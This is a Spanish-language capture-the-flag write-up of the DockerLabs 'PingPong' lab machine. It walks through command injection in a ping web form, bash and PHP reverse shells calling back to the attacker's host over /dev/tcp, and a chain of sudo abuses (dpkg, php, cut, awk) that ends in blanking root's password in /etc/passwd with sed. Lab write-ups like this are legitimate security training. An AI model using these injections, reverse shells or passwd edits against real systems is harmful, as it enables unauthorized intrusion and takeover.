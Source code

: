 Máquina **PingPong** de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio

![PingPong](/maquina-pingpong/img/dockerlabs.png)

# Reconocimiento

Comenzaremos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Dec 10 12:52:28 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-10 12:52:28 -03 for 17s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| ssl-cert: Subject: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/organizationalUnitName=Your Unit/localityName=San Francisco
| Issuer: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/organizationalUnitName=Your Unit/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-19T14:20:49
| Not valid after:  2025-05-19T14:20:49
| MD5:   9ba4:3106:4c16:47c8:dc44:cc43:9e96:b3d0
| SHA-1: 5c55:1ab3:9e32:5498:c454:8eb9:e203:a46a:8e7f:bd18
| -----BEGIN CERTIFICATE-----
| MIID4zCCAsugAwIBAgIULigYxnihUEciHsadhZIVB1bHlvowDQYJKoZIhvcNAQEL
| BQAwgYAxCzAJBgNVBAYTAlVTMRMwEQYDVQQIDApDYWxpZm9ybmlhMRYwFAYDVQQH
| DA1TYW4gRnJhbmNpc2NvMRowGAYDVQQKDBFZb3VyIE9yZ2FuaXphdGlvbjESMBAG
| A1UECwwJWW91ciBVbml0MRQwEgYDVQQDDAtleGFtcGxlLmNvbTAeFw0yNDA1MTkx
| NDIwNDlaFw0yNTA1MTkxNDIwNDlaMIGAMQswCQYDVQQGEwJVUzETMBEGA1UECAwK
| Q2FsaWZvcm5pYTEWMBQGA1UEBwwNU2FuIEZyYW5jaXNjbzEaMBgGA1UECgwRWW91
| ciBPcmdhbml6YXRpb24xEjAQBgNVBAsMCVlvdXIgVW5pdDEUMBIGA1UEAwwLZXhh
| bXBsZS5jb20wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDEqLvUG75u
| /h+CCctOKN+mdmVrGB7kj622+bMKv1Nb0tWOkxGJfeTpmofz2F7wYP4G+mgkolsj
| e3Nhzbhuw7jzhHEXTkjaeJdVstODXfr2SO3hzGTFJNf4QAJdidzywO415C6pv/ri
| mZdwBuVTMXRkH/Blz6wInPTx6lPKrHFWmaYnvroa+FyUNFqZpxlKIp/8Ztyi8rQ3
| DOyRGvKD850XJDCtoN8bXBOjNa8aarzC5CM4SJY78WrGYzysrXSrZBQP8ztJnmCN
| gkurONPKidA9q4DbYGzDUrXP2wyPLMgvlwN7hoPDGhldwn6oHJfiMambrOqiNd02
| +4G46l6HNO8bAgMBAAGjUzBRMB0GA1UdDgQWBBRskdiM67+xLIfhKFUDsRTW2iuY
| yzAfBgNVHSMEGDAWgBRskdiM67+xLIfhKFUDsRTW2iuYyzAPBgNVHRMBAf8EBTAD
| AQH/MA0GCSqGSIb3DQEBCwUAA4IBAQAorD07Oh+lrObtJY1cRyMDUdSVzWXqc5C1
| ezcGUsBaRTkbgHNpiAE71aXW6izz+AdFuiadOtJUIZHBbQ4YhrHPGabTeobtSc2W
| 7wg8s7n/PyDVNxPjx6EyNYvANfnQNFSrX4g+Z4ovEmhZP/YiT3L4ChTaB0rkLhmK
| E9aytIGKrh0OqhYD4mZrqCfXcUHpNgRfJQhjCjGdFte4PoPT+nPgua3Hp38sUnGX
| +qrYDZI52+OO6ChEE6Miguz9ji+YdbnPZwpV2mWR2+BWjOgQ5QnSBeorXLjfnLQn
| /a9ezvNvIke18R0FR0AO9/3RX73To5+vo5Bx+fXiREKStlDvh39v
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
5000/tcp open  http     syn-ack ttl 64 Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Ping Test
| http-methods: 
|_  Supported Methods: POST GET HEAD OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 10 12:52:45 2024 -- 1 IP address (1 host up) scanned in 17.00 seconds
```

Como vemos hay 3 puertos:

`80 & 443: Apache httpd 2.4.58`

`5000: Werkzeug httpd 3.0.1 (Python 3.12.3)`

Si revisamos los puertos 80 y 443 no encontraremos nada interesante, pero en el puerto 5000 sí, ya que nos deja ejecutar `ping` hacia la ip que digamos.

Podemos intentar ejecutar comandos de diversas maneras pero por ejemplo, si intentamos poner "--help", la web nos dirá lo siguiente:

```css
Command 'ping -c 4 --help' returned non-zero exit status 2.
```

Esto significa que la web ejecuta lo siguiente:

```css
ping -c 4 $entrada_del_usuario
```

sabiendo esto, podríamos intentar ejecutar comandos poniendo un ";", y asi ejecutar otro comando además de ping:

![comandos](/maquina-pingpong/img/comandos.png)

Como vemos, si se ejecutan los comandos.

# Intrusión

Teniendo una ejecución de comandos, podemos enviar una shell de diversas maneras, yo usé la siguiente:

```css
asdasdasd; bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

Esta nos enviará una shell por el puerto 443, por lo que previamente debemos haber estado escuchando con netcat (`sudo nc -nlvp 443`).

# Escalada de privilegios

### Freddy

Al ser una web con python, somos el usuario que la estaba ejecutando, en este caso "freddy". Luego de hacer el tratamiento de la tty, ejecuto `sudo -l` y veo que puedo ejecutar `dpkg` como el usuario "bobby", por lo que para escalar a bobby, ejecuto el siguiente comando:

```css
sudo -u bobby dpkg -i
```

este nos abrirá como un menú, escribimos `!/bin/bash` y apretamos la tecla enter.

### Bobby

Si ejecutamos `sudo -l` veremos que podemos ejecutar php como el usuario "gladys", pero en esta parte deberemos hacer una cosa, ya que si usamos el método de gtfobins, todo el terminal quedará con lag o bugeado, por lo que para poder escalar a gladys, deberemos crear un archivo en php que nos envié una shell:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/9090 0>&1'");
?>
```

como la máquina no tiene nano ni vim ni nvim, dejo este oneliner que lo crea automáticamente con los permisos correctos:

```css
echo '<?php' > /tmp/shell.php && echo "system('bash -c \"bash -i >& /dev/tcp/172.17.0.1/9090 0>&1\"');" >> /tmp/shell.php && echo '?>' >> /tmp/shell.php && chmod 777 /tmp/shell.php
```

Una vez ejecutamos lo de arriba, solo nos queda escuchar en el puerto 9090 (`nc -nlvp 9090`) y enviar la shell como gladys:

```css
sudo -u gladys php /tmp/shell.php
```

### Gladys

Como gladys, ejecuto `sudo -l` y veo que puedo ejecutar `cut` como el usuario "chocolatito", y si buscamos que archivos pertenecen a este (`find / -user chocolatito 2>/dev/null`) veremos que en "/opt/" se encuentra un txt con su contraseña, pero no podemos leerlo, pero como si podemos ejecutar `cut` como chocolatito, lo usaremos de la siguiente manera para leer el archivo:

```css
sudo -u chocolatito cut -d "" -f1 "/opt/chocolatitocontraseña.txt"
```

Una vez lo ejecutamos, obtendremos la contraseña, y escalaremos ejecutando `su chocolatito` y poniendo la contraseña obtenida.

### Chocolatito

Siendo chocolatito, podemos ejecutar `awk` como el usuario "theboss", por lo que para escalar ejecutamos lo siguiente:

```css
sudo -u theboss awk 'BEGIN {system("/bin/bash")}'
```

### TheBoss

Como theboss, podemos ejecutar `sed` como root, por lo que para escalar a root, debemos modificar el passwd y hacer que al ejecutar `su` nos haga root sin necesidad de contraseña. Para esto debemos ejecutar lo siguiente:

```css
sudo sed -i 's/root:x:/root::/g' /etc/passwd
```

Ejecutamos `su` y ya seremos root.

## Root

![root](/maquina-pingpong/img/root.png)

Gracias por leer :)